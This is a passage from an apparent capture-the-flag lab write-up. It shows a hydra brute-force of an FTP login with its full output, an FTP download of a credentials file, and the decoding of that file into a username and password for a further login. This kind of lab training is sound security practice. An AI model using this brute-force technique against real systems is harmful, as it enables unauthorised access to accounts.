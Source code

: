 1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
...
```

I'll run `hydra` on it, just because they have a nice starting message :)

```
❯ hydra -l ftpuser -P pass.txt ftp://10.10.186.25
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-24 23:01:00
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.186.25:21/
[21][ftp] host: 10.10.186.25   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-24 23:01:16
```

Yay!

```
❯ ftp 10.10.186.25
Connected to 10.10.186.25.
220 (vsFTPd 3.0.2)
Name (10.10.186.25:tanishq): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> get "Eli's_Creds.txt"
local: Eli's_Creds.txt remote: Eli's_Creds.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
226 Transfer complete.
758 bytes received in 0.00 secs (3.2562 MB/s)
ftp> 
```


## Foothold
Opening the creds we get something ... this looks like brainfuck, the langauge. yes! compiling it, we get:

```
User: eli
Password: DSpDiM1wAEwid
```

There's nothing else, so let's login as `eli`.

```
❯ ftp 10.10.186.25
Connected to 10.10.186.25.
220 (vsFTPd 3.0.2)
Name (10.10.186.25:tanishq): eli